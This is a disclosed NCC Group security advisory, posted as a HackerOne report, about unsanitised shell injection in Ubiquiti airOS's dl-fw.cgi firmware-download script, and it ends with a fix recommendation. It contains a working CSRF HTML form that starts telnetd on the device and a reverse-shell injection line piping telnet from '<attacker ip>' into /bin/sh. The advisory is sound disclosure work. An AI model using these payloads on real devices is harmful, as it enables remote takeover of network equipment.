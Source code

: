 # Shell Injection via Web Management Console (dl-fw.cgi)

## Report Details
- **Report ID**: 121940
- **URL**: https://hackerone.com/reports/121940
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-03-10T04:01:09.590Z
- **Disclosed**: 2016-10-15T22:40:55.393Z

## Reporter
- **Username**: mornaner
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ui

## Vulnerability Information
NCC Group Security Advisory
https://www.nccgroup.trust
--------------------------------------------

Shell Injection via Web Management Console

Vendor: Ubiquiti Networks
Vendor URL: https://www.ubnt.com
Versions affected: airOS XM board line (potentially all airOS lines, unverified)
Systems Affected: AG-HP-2G16, AG-HP-2G20, AG-HP-5G23, AG-HP-5G27, AirGrid M,
AirGrid M2, AirGrid M5, AR, AR-HP, BM2HP, BM2-Ti, BM5HP, BM5-Ti, LiteStation M5,
locoM2, locoM5, locoM9, M2, M3, M365, M5, M900, NB-2G18, NB-5G22, NB-5G25, NBM3,
NBM365, NBM9, NSM2, NSM3, NSM365, NSM5, PBM10, PBM3, PBM365, PBM5, PICOM2HP,
Power AP N (Verified on AR-HP running firmware v5.6.3)
Author: Joel St. John <joel.stjohn[at]nccgroup[dot]trust>
Risk: High

Summary:
--------
The dl-fw.cgi script does not properly sanitize URLs passed via the fw_url parameter, allowing
arbitrary shell commands to be provided as part of the input.

Location: 
---------
/usr/www/dl-fw.cgi

Impact:
-------
This issue can be used to execute arbitrary shell commands on the device.
 
Details:
--------
The airOS XM, XW, and TI lines (and potentially others) all contain a utility script
called dl-fw.cgi that is hosted in the webroot. This script is used in conjunction
with other functionality to download/display EULAs and download firmware updates.

This script can be called directly via POSTs, since it is within the webroot. On Line 62-63,
the script executes the following using a specified fw_url parameter:

62: $cmd = "$cmd_wget -O $firmware_file --header='Referer: $eula_url ' $fw_url > $progress_file 2>&1";
63: exec($cmd, $lines, $res);

No sanitization is performed on fw_url, which allows an attacker to specify arbitrary shell commands
which are in turn passed to exec. For instance, the following example uses the URL
http://www.nccgroup.trust/testtest123/`telnetd`, along with a cross-site request forgery attack
to start the telnet service:

<html>
  <body>
    <form action="https://192.168.1.1/dl-fw.cgi" method="POST">
      <input type="hidden" name="action" value="download" />
      <input type="hidden" name="fw&#95;url" value="http&#58;&#47;&#47;www&#46;nccgroup&#46;trust&#47;testtest123&#47;&#96;telnetd&#96;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

This can also be used to open a reverse shell via telnet, for instance by injecting:

telnet <attacker ip> <port1> | /bin/sh | telnet <attacker ip> port2

Recommendation:
----------------
Sanitize the fw_url parameter to remove/encode shell metacharacters using EscapeShellCmd
(as done elsewhere) or similar methods.

About NCC Group:
--------------------
NCC Group is a global expert in cyber security and risk mitigation, working with businesses to protect their brand, value and reputation against the ever-evolving threat landscape. Our Security Consulting services leverage our extensive knowledge of current security vulnerabilities, penetration testing techniques and software development best practices to enable organizations to secure their applications against ever-present threats. At NCC Group we can boast unrivaled talent and recognized world-class security expertise. Bringing together best in class security consultancies iSEC Partners, Intrepidus Group, Matasano, NCC Group and NGS we have created one of the largest, most respected security consultancies in the world.

## Attachments
No attachments
